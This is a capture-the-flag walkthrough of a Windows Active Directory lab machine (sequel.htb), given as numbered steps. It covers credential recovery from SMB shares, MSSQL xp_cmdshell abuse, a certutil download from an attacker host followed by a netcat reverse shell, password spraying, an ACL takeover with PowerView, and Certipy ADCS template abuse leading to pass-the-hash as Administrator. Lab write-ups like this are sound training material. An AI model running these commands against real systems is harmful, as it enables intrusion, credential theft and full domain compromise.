

### Enumeration

1. **Nmap Full TCP Scan:**
    
    ```bash
    nmap -p- --min-rate=1000 -T4 10.10.11.51
    ports=$(...) # Extract ports
    nmap -p$ports -sC -sV 10.10.11.51
    ```
    
2. **Findings:**
    
    - SMB (445), LDAP (389), Kerberos (88)
        
    - MSSQL (1433)
        
    - Domain: `sequel.htb`, DC: `dc01.sequel.htb`
        
    
3. **Initial creds found:**  
    `rose:KxEPkKe6R8su`
    

---

### Share Enumeration (SMB)

4. **List Shares:**
    
    ```bash
    smbclient -U 'sequel.htb\rose' //10.10.11.51/Accounting\ Department
    ```
    
5. **Download an Excel file found on the system:**
    
    - `accounts.xlsx`
        
    - `accounting_2024.xlsx`
        
6. **File is ZIP internally, have to correct the magic bytes:**
    
    - Wrong magic bytes: `50 48 04 03`
        
    - Correct it to: `50 4B 03 04` using hex editor
        
7. **Extract & open file to get creds:**  
    `oscar:86LxLBMgEWaKUnBG`
    

---

### Foothold via MSSQL

8. **Login to MSSQL using `oscar` credentials:**
    
    ```bash
    impacket-mssqlclient sequel.htb/oscar@10.10.11.51 -p '86LxLBMgEWaKUnBG'
    ```
    
9. **Enable xp_cmdshell:**
    
    ```sql
    EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
    EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
    ```
    
10. **Use `whoami` to verify:**  
    → `sequel\sql_svc`
    
11. **Get reverse shell using Netcat (via certutil):**
    
    ```sql
    EXEC xp_cmdshell 'certutil -urlcache -split -f http://<attacker-ip>:4000/nc64.exe C:\Users\sql_svc\Desktop\nc64.exe'
    EXEC xp_cmdshell 'C:\Users\sql_svc\Desktop\nc64.exe -e cmd.exe <attacker-ip> <port>'
    ```
    

---

###  Lateral Movement

12. **Check `C:\SQL2019` folder for config file:**
    
    - Found: `sql-Configuration.INI`
        
    - Creds inside:
        
        - `SQLSVCPASSWORD="WqSZAF6CysDQbGb3"`
            
13. **Password spray against domain users:**
    
    - Valid for `ryan:WqSZAF6CysDQbGb3`
        
14. **Login via WinRM:**
    
    ```bash
    evil-winrm -i 10.10.11.51 -u ryan -p 'WqSZAF6CysDQbGb3'
    ```
    

---

### Privilege Escalation

15. **BloodHound shows:**  
    `ryan → WriteOwner → ca_svc`
    
16. **Take over `ca_svc` account:**
    
    - Use `PowerView.ps1`:
        
        ```powershell
        Set-DomainObjectOwner -Identity "ca_svc" -OwnerIdentity "ryan"
        Add-DomainObjectAcl -TargetIdentity "ca_svc" -Rights ResetPassword -PrincipalIdentity "ryan"
        $cred = ConvertTo-SecureString "Password123!!" -AsPlainText -Force
        Set-DomainUserPassword -Identity "ca_svc" -AccountPassword $cred
        ```
        
17. **Verify login as `ca_svc`:**
    
    ```bash
    netexec smb sequel.htb -u ca_svc -p 'Password123!!'
    ```
    
18. **Enumerate ADCS templates with Certipy:**
    
    ```bash
    certipy find -u 'ca_svc@sequel.htb' -p 'Password123!!' -dc-ip 10.10.11.51 -stdout
    ```
    
19. **Template `DunderMifflinAuthentication` is vulnerable (ESC1–ESC4)**
    
20. **Modify template to allow impersonation:**
    
    ```bash
    certipy template -u ca_svc@sequel.htb -p 'Password123!!' -template DunderMifflinAuthentication -save-old -dc-ip 10.10.11.51
    ```
    
21. **Request cert for Administrator:**
    
    ```bash
    certipy req -username ca_svc@sequel.htb -p 'Password123!!' -ca sequel-DC01-CA -template DunderMifflinAuthentication -target dc01.sequel.htb -upn administrator@sequel.htb
    ```
    
22. **Extract Administrator hash:**
    
    ```bash
    certipy auth -pfx administrator.pfx -domain sequel.htb
    ```
    
23. **Login with Evil-WinRM using hash:**
    
    ```bash
    evil-winrm -i 10.10.11.51 -u Administrator -H <ntlm_hash>
    ```
    
24. **Root flag:**
    
    ```powershell
    type C:\Users\Administrator\Desktop\root.txt
    ```
    
`pwned`